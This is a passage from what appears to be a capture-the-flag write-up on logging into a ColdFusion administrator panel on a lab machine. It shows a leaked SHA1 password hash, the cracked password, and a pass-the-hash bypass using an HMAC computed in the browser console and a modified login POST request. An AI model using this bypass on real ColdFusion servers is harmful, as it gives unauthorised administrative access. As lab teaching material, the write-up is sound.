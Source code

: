![image-20200513074600371](https://0xdfimages.gitlab.io/img/image-20200513074600371.png)

That password fields looks like a hash, and given the length, it looks like a
SHA1: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03.

#### Log In

From here there’s two ways to go. This hash is easily cracked, and in fact is
already cracked in [CrackStation](http://crackstation.net):

![image-20200513074833739](https://0xdfimages.gitlab.io/img/image-20200513074833739.png)

I can enter `happyday` into the password field and it successfully logs in.

However, what if the user had picked a really strong password that I couldn’t
easily break? I can actually work around that here too.

Remember from above that JavaScript takes the password input (`happyday`),
makes a SHA1 hash, and then a keyed HMAC hash of that result, and submits the
key (or salt) with the hash to the site. So it makes sense that I can do that
locally with the leaked hash (which is also described
[here](https://nets.ec/Coldfusion_hacking#Logging_In))

I can go into the Firefox developer tools and use the same functions to get
the hash that’s submitted. To reference the salt on the page, I’ll use
`document.loginform.salt.value`. Then I’ll give the leaked SHA1:

    
    
    hex_hmac_sha1(document.loginform.salt.value, '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03');
    

It gives a result:

![image-20200513081248163](https://0xdfimages.gitlab.io/img/image-20200513081248163.png)

I’ll submit the form, and modify the hash based on the calculations:

    
    
    POST /CFIDE/administrator/enter.cfm HTTP/1.1
    Host: 10.10.10.11:8500
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.11:8500/CFIDE/administrator/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 141
    Connection: close
    Cookie: CFID=100; CFTOKEN=20430451; CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fhomepage%2Ecfm
    Upgrade-Insecure-Requests: 1
    
    cfadminPassword=C1F159600F4058D19D25DACA563D723273798E8C&requestedURL=%2FCFIDE%2Fadministrator%2Findex.cfm%3F&salt=1589487103545&submit=Login
    
